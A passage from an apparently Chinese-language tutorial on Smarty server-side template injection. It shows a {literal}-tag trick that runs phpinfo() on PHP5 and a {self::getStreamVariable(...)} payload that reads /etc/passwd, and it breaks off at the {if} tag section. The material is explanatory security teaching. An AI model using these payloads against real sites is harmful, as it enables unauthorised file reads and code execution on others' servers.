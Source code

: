 ##### **`{literal}`标签**

官方手册这样描述这个标签：

- `{literal}`可以让一个模板区域的字符原样输出
- 这经常用于保护页面上的Javascript或css样式表，避免因为Smarty的定界符而错被解析

在php5的环境中可以使用

```javascript
<script language="php">phpinfo();</script>
```

复制

php7就不能用了

##### **静态方法**

通过self获取Smarty类再调用其静态方法实现文件读写

Smarty类的getStreamVariable方法的代码

```javascript
public function getStreamVariable($variable)
{
        $_result = '';
        $fp = fopen($variable, 'r+');
        if ($fp) {
            while (!feof($fp) && ($current_line = fgets($fp)) !== false) {
                $_result .= $current_line;
            }
            fclose($fp);
            return $_result;
        }
        $smarty = isset($this->smarty) ? $this->smarty : $this;
        if ($smarty->error_unassigned) {
            throw new SmartyException('Undefined stream variable "' . $variable . '"');
        } else {
            return null;
        }
    }
```

复制

这个方法可以读取一个文件并返回其内容 所以我们可以用self来获取Smarty对象并调用这个方法 很多文章里给的payload都形如：

```javascript
{self::getStreamVariable("file:///etc/passwd")}
```

复制

但在3.1.30的Smarty版本中官方已经把该静态方法删除

##### **`{if}`标签**

官方文档中的描述：
